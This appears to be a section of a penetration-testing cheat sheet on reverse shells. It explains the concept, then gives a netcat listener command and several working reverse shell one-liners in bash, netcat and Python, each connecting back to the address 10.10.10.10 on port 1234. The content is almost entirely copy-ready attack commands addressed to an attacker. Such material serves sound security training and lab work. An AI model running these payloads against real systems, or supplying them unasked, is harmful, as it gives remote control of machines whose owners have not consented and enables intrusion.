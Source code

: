 
### **Reverse Shell**

A **Reverse Shell** connects from the victim’s machine back to your attacking machine, giving you control. This is often the most commonly used method since it avoids the need for the attacker to initiate the connection, which can sometimes be blocked by firewalls.

**Steps for Reverse Shell:**

1. Start a listener (e.g., using `netcat` or `Metasploit`) on your machine.
2. Execute a reverse shell payload on the target system.
3. Once the connection is established, you have control over the system.

**Starting a Netcat Listener (Attacker Machine):**

```bash
nc -lvnp 1234
```

- `l`: Listen for incoming connections.
- `v`: Verbose mode, show connection details.
- `n`: No DNS resolution, faster connection.
- `p 1234`: Listen on port 1234.

**Finding Your IP (Attacker Machine):**

```bash
ip a
```

Look for the `tun0` or `eth0` interface, depending on the network you're on (e.g., VPN or direct).

**Common Reverse Shell Commands:**

- **Bash (Linux)**:
    
    ```bash
    bash -i >& /dev/tcp/10.10.10.10/1234 0>&1
    ```
    
    ```bash
    /bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
    ```
    
- **Netcat (Linux)**:
    
    ```bash
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
    ```
    
    ```bash
    nc -e /bin/bash 10.10.10.10 1234
    ```
    
- **Python (Linux)**:
    <pre>```
    python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")' ```</pre>
    